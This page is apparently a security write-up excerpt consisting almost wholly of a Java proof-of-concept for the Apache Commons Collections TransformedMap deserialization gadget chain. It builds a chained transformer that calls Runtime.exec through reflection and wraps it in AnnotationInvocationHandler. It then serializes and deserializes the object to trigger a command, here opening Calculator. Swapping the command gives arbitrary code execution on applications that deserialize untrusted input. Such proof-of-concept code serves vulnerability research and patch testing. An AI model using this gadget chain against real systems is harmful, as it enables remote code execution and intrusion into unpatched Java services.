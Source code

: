 ### POC
```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.io.*;
import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.InvocationTargetException;
import java.util.HashMap;
import java.util.Map;

public class CommonsCollectionsTransformedMap {

    public static void main(String[] args) throws ClassNotFoundException, InstantiationException, IllegalAccessException, InvocationTargetException {
        Transformer[] transformer = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"open -a /System/Applications/Calculator.app"})
        };

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformer);
        Map hashMap = new HashMap();
        hashMap.put("value", "d1no");
        Map transformedMap = TransformedMap.decorate(hashMap, null, chainedTransformer);
        Class<?> h3rmesk1t = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> constructor = h3rmesk1t.getDeclaredConstructors()[0];
        constructor.setAccessible(true);
        InvocationHandler invocationHandler = (InvocationHandler) constructor.newInstance(Retention.class, transformedMap);

        try {
            // 序列化
            ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
            ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
            objectOutputStream.writeObject(invocationHandler);
            objectOutputStream.close();

            // 反序列化
            ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(byteArrayOutputStream.toByteArray());
            ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);
            objectInputStream.readObject();
            objectInputStream.close();
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}
```
![undefined](https://p4.ssl.qhimg.com/t012f1e615114a039fd.png "undefined")

